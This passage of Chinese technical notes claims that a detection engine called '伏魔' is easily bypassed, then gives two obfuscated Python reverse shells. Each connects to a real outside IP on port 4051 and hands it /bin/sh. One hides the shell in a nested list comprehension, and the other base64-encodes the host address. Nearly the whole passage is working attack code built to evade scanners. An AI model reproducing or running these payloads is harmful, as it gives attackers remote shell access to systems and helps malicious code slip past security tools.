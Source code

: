 		  
		  loader = Loader(content)
		  print(loader.load())
		  ```
	- 还有伏魔在这方面也不是很行，用一下python的高级特性就可以绕过了，根本用不着写虚拟机
		- 第一个
		  collapsed:: true
			- ```python
			  lst = [
			      s
			      for print_fn in [print]
			      if list(map(print_fn, ["Made by Marven11"]))
			      for import_fn in [__import__]
			      for socket, os, pty in [list(map(import_fn, ["socket", "os", "pty"]))]
			      for get_socket_fn, osdup2_fn, ptysp_fn in [[socket.__dict__["socket"], os.__dict__["dup2"], pty.__dict__["spawn"]]]
			      for s in [get_socket_fn(2, 1)]
			      for conn_fn, tpl, fno in [[s.connect, ("42.194.176.181", 4051), s.fileno()]]
			      if [
			          conn_fn(tpl),
			          osdup2_fn(fno,0),
			          osdup2_fn(fno,1),
			          osdup2_fn(fno,2),
			          ptysp_fn("/bin/sh"),
			      ]
			  ]
			  
			  print(lst)
			  
			  ```
		- 第二个
		  collapsed:: true
			- ```python
			  import socket
			  import os
			  import pty
			  import base64
			  import sys
			  
			  a, b, c, d = (
			      sys.modules.get("socket", None),
			      sys.modules.get("os", None),
			      sys.modules.get("pty", None),
			      sys.modules.get("base64", None),
			  )
			  
			  print("Made by Marven11")
			  
			  h = "NDIuMTk0LjE3Ni4xODEK"
			  h = d.b64decode(h).decode()
			  
			  sket, tpl = a.socket, (h, 4051)
			  
			  s = sket(2, 1)
			  s.connect(tpl)
			  b.dup2(s.fileno(), 0)
			  b.dup2(s.fileno(), 1)
			  b.dup2(s.fileno(), 2)
			  c.spawn("/bin/sh")
			  
			  ```